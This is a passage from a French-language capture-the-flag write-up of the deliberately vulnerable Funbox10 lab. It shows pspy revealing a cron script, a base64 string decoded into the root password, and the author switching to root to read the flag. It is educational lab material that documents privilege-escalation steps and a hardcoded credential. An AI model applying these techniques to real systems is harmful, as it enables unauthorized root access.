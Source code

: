 Mais impossible de s'y connecter en SSH ou via `su`. Bug dans la matrice, `Ncrack` a craqué, mais pas le mot de passe.

`LinPEAS` ne m'a rien retourné d'intéressant. Finalement après un long moment, j'ai eu cette exécution observée depuis `pspy` :

```
2025/07/03 17:25:01 CMD: UID=1000 PID=28251  | /bin/sh -c /usr/share/doc/examples/cron.sh
```

Le script contient du base64 qui s'avère être le mot de passe `root` :

```console
www-data@funbox10:~$ cat /usr/share/doc/examples/cron.sh
# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==
www-data@funbox10:~$ echo LXUgcm9vdCAtcCByZnZiZ3QhIQ== | base64 -d 
-u root -p rfvbgt!!www-data@funbox10:~$ su root
Password: 
root@funbox10:/tmp# cd /root/
root@funbox10:~# ls -al
total 3052
drwx------  2 root root    4096 Jul 19  2021 .
drwxr-xr-x 23 root root    4096 Jun 25  2021 ..
-rw-------  1 root root      29 Jul 19  2021 .bash_history
-rw-r--r--  1 root root    3106 Oct 22  2015 .bashrc
-rw-------  1 root root     544 Jul 17  2021 .mysql_history
-rw-r--r--  1 root root     148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root 3078592 Aug 22  2019 pspy64
-rw-r--r--  1 root root    1066 Jul 17  2021 root.txt
-rw-r--r--  1 root root      74 Jul 17  2021 .selected_editor
-rw-------  1 root root    6641 Jul 19  2021 .viminfo
-rw-r--r--  1 root root     229 Jul  3 16:03 .wget-hsts
root@funbox10:~# cat root.txt 
  _____            _                                                                      
 |  ___|   _ _ __ | |__   _____  ___                                                      
 | |_ | | | | '_ \| '_ \ / _ \ \/ (_)                                                     
 |  _|| |_| | | | | |_) | (_) >  < _                                                      
 |_|   \__,_|_| |_|_.__/ \___/_/\_(_)                                                     
  _   _           _                             _                   _   _               _ 
 | | | |_ __   __| | ___ _ __    ___ ___  _ __ | |_ _ __ _   _  ___| |_(_) ___  _ __   | |
 | | | | '_ \ / _` |/ _ \ '__|  / __/ _ \| '_ \| __| '__| | | |/ __| __| |/ _ \| '_ \  | |
 | |_| | | | | (_| |  __/ |    | (_| (_) | | | | |_| |  | |_| | (__| |_| | (_) | | | | |_|
  \___/|_| |_|\__,_|\___|_|     \___\___/|_| |_|\__|_|   \__,_|\___|\__|_|\___/|_| |_| (_)
                                                                                          

You did it !!!
I look forward to see this on Twitter: @0815R2d2
```




